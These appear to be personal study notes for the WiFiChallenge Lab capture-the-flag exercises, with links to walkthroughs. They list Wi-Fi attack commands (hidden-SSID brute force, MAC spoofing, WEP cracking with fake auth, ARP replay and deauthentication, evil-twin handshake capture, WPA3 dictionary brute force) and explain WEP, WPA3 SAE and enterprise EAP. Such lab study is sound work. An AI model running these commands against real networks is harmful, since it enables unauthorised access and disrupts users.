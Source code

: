 # Files: 
https://wifichallengelab.com/challenges  

# Solve:
https://r4ulcl.com/posts/walkthrough-wifichallenge-lab-2.0/#05-what-is-the-flag-in-the-hidden-ap-router-behind-default-credentials  
https://r4ulcl.com/posts/wifi_db-in-wifichallenge-lab/  

# Something new:
1) **airodump-ng** --> sudo airmon-ng start wlan0.  
                       sudo airodump-ng wlan0mon -w ~/wifi/scan --band abg --wps --manufacturer
2) **ESSID of hidden AP** --> https://xre0us.io/posts/identifying-ap-with-hidden-ssid/  
        sudo airmon-ng start wlan0  
        iwconfig wlan0mon channel <channel_number>  
        sudo mdk4 wlan0mon p -t <MAC> -f <wordlist>
3) **Connection using specific ESSID** --> Create config file  
       wpa_supplicant -Dnl80211 -iwlan2 -c <config_file>
       dhclient wlan2 -v  
4) To get valid credentials for login as well as the login.php you have to change the MAC address to that of the client using the ESSID.  
5) **besside-ng** --> used to crack WEP passwords and capture WPA handshakes.  
           besside-ng -c <channel_number> -b <_bssid_> wlan2 -v  
6) **Cracking WEP passwords** --> Capture data using airodump-ng.  
           To generate extra data to the AP,we can launch a fake authentification using --> sudo aireplay-ng -1 3600 -q  10 -a <_BSSID_> wlan0mon.  
           Also extra ARP packets can be generated using(ARP request-replay attack) --> sudo aireplay-ng --arpreplay -b <_BSSID_> -h <client_MAC> wlan0mon.  
           Use aircrack-ng to crack pwd.  
7) **WEP** --> uses RC4 symmetric scheme, and the data is prepended with an IV which contains info about the key in use.  
            The IV is of 3bytes, out of which 2 bits are used for defining the encryption key in use.  
            The key is 40/104 bits long which along with the IV makes it 64/128 bits.  
            This key will perform XOR with the data and CRC and generate CT.  
            2 ways to boost ARP traffic in air -> 1) try fake auth with the AP 2) Disconnect legitimate users from the AP. (using aireplay-ng --deauth/--arpreplay/--fakeauth.  
            https://www.computerweekly.com/tip/Step-by-step-aircrack-tutorial-for-Wi-Fi-penetration-testing.  
8) **airedecap-ng** --> airdecap-ng -e <_bssid_> -p $PASSWORD <.cap file>  
9) **To get password of BSSID no longer there in network** --> create a fake AP with hostapd-mana and then get the handshakes of the clients that ask for this AP, perform a dictionary attack and get pwd.
10) **WPA3** --> https://github.com/blunderbuss-wctf/wacker
          Passwords for WPA3 can be bruteforced using **wacker**.
          ./wacker.py --wordlist ~/rockyou-top100000.txt --ssid <> --bssid <> --interface wlan2 --freq 2462  
          WPA3's SAE(Simultaneous Authentification of Equals) also known as **dragonfly** is affected by password-partitioning attacks which occur by abusing timing or cache-based side channel attacks.
          The side channel attacks target the protocol's password encoding algorithm.
          
          Cache-based attack exploys the hash-to-curve algorithm.  
          https://kaliboys.com/wp-content/uploads/2019/04/dragonbloodkaliboys.com_.pdf#:~:text=Most%20prominently%2C%20we%20show%20that%20WPA3%E2%80%99s%20Simultaneous%20Authentication,password%20by%20abusing%20timing%20or%20cache-based%20side-channel%20leaks.
        WPA3-SAE(home network) and WPA3-Enterprise(Enterprise networks).  
        After the SAE handshake, we get a Pairwise Master Key(PMK) which is used for a 4-way handshake to get Pairwise Transient Key(PTK).  
        The Management Frame Protocol(MFP) is used to prevent deauthentification attacks in both the modes.  
11) **MGT** --> Commonly used in corporate networks.  
                In these networks each user has their own authentification which can be a username and password or a certificate.  
                Attacks against MGT involve obtaining reconnaissance of the clients and AP, identity info,certificate info and EAP info about the network.  
                To create a TLS tunnel between the MGT network and client, the AP sends the Certificate in PT which can be viewed using **pcapfilter.sh**  
                https://github.com/r4ulcl/wifi_db  
    https://gist.github.com/r4ulcl/f3470f097d1cd21dbc5a238883e79fb2  
    https://github.com/blackarrowsec/EAP_buster
    
     
    
          

          

            
